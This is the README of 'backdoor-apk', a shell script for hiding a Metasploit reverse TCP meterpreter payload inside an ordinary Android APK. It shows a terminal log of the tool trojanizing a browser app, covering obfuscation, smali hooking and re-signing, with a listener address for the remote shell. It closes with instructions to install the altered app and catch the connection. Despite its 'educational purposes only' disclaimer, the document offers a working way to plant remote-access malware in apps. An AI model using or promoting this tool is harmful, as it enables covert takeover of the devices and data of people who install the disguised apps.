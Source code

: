 # backdoor-apk
backdoor-apk is a shell script that simplifies the process of adding a backdoor to any Android APK file. Users of this shell script should have working knowledge of Linux, Bash, Metasploit, Apktool, the Android SDK, smali, etc. This shell script is provided as-is without warranty of any kind and is intended for educational purposes only.

Usage:

```
root@kali:~/Android/evol-lab/BaiduBrowserRat# ./backdoor-apk.sh BaiduBrowser.apk 
[*] Generating reverse tcp meterpreter payload...done.
[+] Handle the meterpreter connection at: 10.6.9.31:1337
[*] Decompiling RAT APK file...done.
[*] Decompiling original APK file...done.
[*] Merging permissions of original and payload projects...done.
[*] Running proguard on RAT APK file...done.
[*] Decompiling obfuscated RAT APK file...done.
[*] Creating new directories in original project for RAT smali files...done.
[*] Copying RAT smali files to new directories in original project...done.
[*] Fixing RAT smali files...done.
[*] Locating smali file to hook in original project...done.
[*] Adding hook in original smali file...done.
[*] Recompiling original project with backdoor...done.
[*] Signing recompiled APK...done.
root@kali:~/Android/evol-lab/BaiduBrowserRat#
```

The recompiled APK will be found in the 'original/dist' directory. Install the APK on a compatible Android device, run it, and handle the meterpreter connection at the specified IP and port.
